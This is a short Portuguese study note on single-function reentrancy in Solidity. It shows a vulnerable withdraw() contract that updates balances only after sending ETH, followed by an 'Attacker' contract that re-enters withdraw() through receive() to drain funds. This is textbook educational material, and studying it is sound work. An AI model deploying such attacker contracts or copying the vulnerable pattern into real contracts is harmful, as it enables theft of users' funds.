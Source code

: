 :PROPERTIES:
:ID:       6a5baf8e-8c6b-44b5-87ae-64d1191e2fde
:END:
#+title: Reentrada de Função Única (Solidity)
#+date: 2023-09-07
#+filetags: reentrancy

- tags :: [[id:410e9489-9d48-44a3-8125-abf61a8df4c8][Reentrada (SWC-107)]]
- source :: [[https://scsfg.io/hackers/reentrancy/#single-function-reentrancy][Single-Function Reentrancy (SCSFG)]]

É o tipo de reentrada que afeta o contexto de uma única função.

* Vulnerabilidade
No código abaixo, a função de saque irá pegar o saldo disponível do chamador da função e transferir para ele esse valor caso o contrato tenha ETH suficiente para isso. Se a transferência foi bem-sucedida, ele irá atualizar o saldo disponível do chamador da função.

 O problema com esse código é: se o chamador da função for um contrato, ele poderá usar ~receive()~ para reentrar a função ~withdraw()~ do contrato antes que ela termine de executar e sacar mais até secar o ETH do contrato. Isso é possível porque o saldo disponível é atualizado só depois da transferência.

 #+begin_src solidity
 contract Vulnerable {
     mapping(address => uint256) public balances;

     function withdraw() public {
         uint256 amount = balances[msg.sender];
         (bool success, ) = msg.sender.call{value: amount}("");
         require(success);
         balances[msg.sender] = 0;
     }
 }
 #+end_src

* Exploitando
#+begin_src solidity
contract Attacker {
    Vulnerable public vulnerableContract;
    uint256 public reentranceCount;

    constructor(address vulnerableContractAddress) {
	vulnerableContract = Vulnerable(vulnerableContractAddress);
    }

    function attack() public {
	reentranceCount = 0;
	vulnerableContract.withdraw();
    }

    receive() external payable {
	if (reentranceCount < 5) {
	    vulnerableContract.withdraw();
	    reentranceCount++;
	}
    }
}
#+end_src
